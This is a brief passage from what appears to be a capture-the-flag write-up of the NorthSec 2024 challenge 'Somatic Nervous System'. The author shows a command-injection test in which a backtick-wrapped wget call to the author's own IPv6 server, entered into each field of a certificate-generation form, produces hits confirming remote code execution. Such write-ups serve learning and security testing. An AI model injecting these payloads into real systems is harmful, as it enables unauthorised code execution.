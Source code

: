 The 'SSL Certificate' link requested some information to generate a new certificate.

![Generate Certificate](/assets/images/2024/06/NorthSec/SomaticNervousSystem/GenerateCertificate.png "Generate Certificate")

I tried getting code execution by sending commands surrounded by backticks in all the fields.

```bash
`wget -6 "http://[9000:6666:6666:6666:216:3eff:feb1:8d80]/"`
```

![RCE On All Fields](/assets/images/2024/06/NorthSec/SomaticNervousSystem/RCEOnAllFields.png "RCE On All Fields")

I immediately got multiple hits on my web server.

![HTTP Requests](/assets/images/2024/06/NorthSec/SomaticNervousSystem/HttpRequests.png "HTTP Requests")
